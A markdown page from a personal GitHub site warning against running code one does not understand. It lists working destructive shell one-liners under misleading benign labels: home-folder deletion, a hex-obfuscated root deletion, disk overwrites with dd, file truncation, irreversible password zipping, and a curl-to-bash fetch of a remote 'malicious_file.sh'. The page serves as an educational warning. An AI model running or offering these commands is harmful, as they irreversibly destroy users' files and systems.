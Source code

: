 ```yaml
---
layout: default
title: My one page argument for learning to code
parent: repositories
nav_order: 0
has_toc: true
---
```

[View on my GitHub](https://github.com/thedzy/My-one-page-argument-for-learning-to-code){: .btn .fs-5 .mb-10 .mr-5 .mb-md-0 }

# My one page argument for learning to code

## **_NEVER_** run code you don't understand

I often hear people call themselves 'Copy and paste' coders. And, while copying and pasting is a legitimate thing to do, it should not be your only way of doing things. A better method is to find code, see what is done and then recreate it, and at a bare minimal, copy it, but know exactly what it does. \
Here is my small example of code that has unintended results. 


> "Running code you found on the internet is like chewing gum you found in the subway'.  

### Try these (IN A VIRTUAL MACHINE!)

#### Here are some bad descriptions to **bad** commands

A. Greatly simplifies document syntax: 

``` bash
while read f; do sed -i "" 's:.:*:g' "$f"; done <<< "$(find ~/ -iname '*' -print)"
```

B. Frees up uneccesary space:

``` bash
du ~/ | grep -o '/.*' | xargs rm -r --
```

C. Relinks your files to improve efficentcy:

``` bash
du ~/*/* | grep -o '/.*' | xargs -n 1 ln -sf /dev/null/
```

D. Moves files/folders to a volume with unlimited storage:

``` bash
for d in ~/*/*; do mv "$d/" /dev/null; done
```

E. Frees up all uneccesary space:

``` bash
command $(echo 7375646f20726d202d7266202f0a | xxd -p -r) &> /dev/null
```

F. Chew the gum you don't even know:

``` bash
bash -c "$(curl -s https://raw.githubusercontent.com/thedzy/My-one-page-argument-for-learning-to-code/master/malicious_file.sh)"
```

G. Frees up uneccesary space:

```bash
eval $(sed 's:[a-e,s-z]::g' <<< "stream -draft ~/saved")
```

H. Compress files and save space:

```bash
zip --password "$(openssl rand -base64 64)"  --move  "$(openssl rand -hex 4)".zip  ~/*/*/*/*/*
```

I. Reduce your need of the external volumes:

```bash
for d in /dev/disk*; do dd if=/dev/random of=$d &; done
```

J. Simply your files and your life:

```bash
find ~/ -type f -exec bash -c ':|tee {} &' \; 
```

K. Keep logs of files in the home folder utilising your current files:

```bash
find ~/ -type f -exec awk 'FNR == 1{ print FILENAME > FILENAME } ' {}  \;
```

### Recommended testing evironment:

1. Create a virtual machine.
2. Open terminal and run the folowing command to copy some files to the desktop: \
```find / -iname "*.txt" | head -n 60 | xargs -n1 -J% cp % $HOME/Desktop/ ```
3. Snapshot your VM, cause you'll need it
4. Run the command
5. Restore
6. Rinse and repeat

